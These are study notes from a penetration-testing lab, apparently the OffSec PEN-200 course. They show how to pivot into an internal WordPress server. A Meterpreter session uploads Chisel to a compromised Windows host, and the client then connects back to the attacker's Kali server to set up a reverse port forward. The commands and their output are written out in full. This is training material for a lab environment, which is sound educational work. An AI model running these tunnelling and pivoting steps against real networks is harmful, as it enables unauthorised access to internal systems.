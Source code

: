###### Using[ Chisel ](https://github.com/jpillora/chisel/releases/tag/v1.7.7)to enumerate web app on INTERNALSRV1
Download Windows amd64 and Linux arm64 versions of #chisel and extract binaries in `/beyond`

Use chisel in server mode to receive connections on port 8080
Add `--reverse` for reverse port forwarding

```hlt:1,3
kali@kali:~/beyond$ chmod a+x chisel

kali@kali:~/beyond$ ./chisel server -p 8080 --reverse
2022/10/11 07:20:46 server: Reverse tunnelling enabled
2022/10/11 07:20:46 server: Fingerprint UR6ly2hYyr8iefMfm+gK5mG1R06nTKJF0HV+2bAws6E=
2022/10/11 07:20:46 server: Listening on http://0.0.0.0:8080
```

Transfer the extracted **chisel.exe** binary to CLIENTWK1 by using Meterpreter's _upload_ command
```hlt:4
msf6 auxiliary(server/socks_proxy) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload chisel.exe C:\\Users\\marcus\\chisel.exe
[*] Uploading  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Uploaded 7.85 MiB of 7.85 MiB (100.0%): /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Completed  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
```

Enter `shell` and create reverse port forward **R:localport:remotehost:remoteport** to port 80 on INTERNALSRV1

```hlt:1
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80
2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)
```

Then we can browse to INTERNALSRV1 172.16.6.241:80 from Kali
![Figure 16: WordPress page on INTERNALSRV1 (172.16.6.241)](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/bb13a6bae5b1152ead8822117439bbc4-atp_svc_wp6h.png)
- WordPress 

Navigate to `http://127.0.0.1/wordpress/wp-admin ` and try to login with creds discovered previously, but get Firefox error.
![Figure 17: Failed Redirect to the Administrator Login](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/5079cf808b521e4fb58a155b1ba25351-atp_svc_wp2h.png)
- Redirected to **internalsrv1.beyond.com**
- Assume WordPress uses DNS name, not IP

Add **internalsrv1.beyond.com** via **127.0.0.1** to **/etc/hosts**
```hlt:5
kali@kali:~/beyond$ cat /etc/hosts                         
127.0.0.1       localhost
127.0.1.1       kali
...
127.0.0.1    internalsrv1.beyond.com
...
```
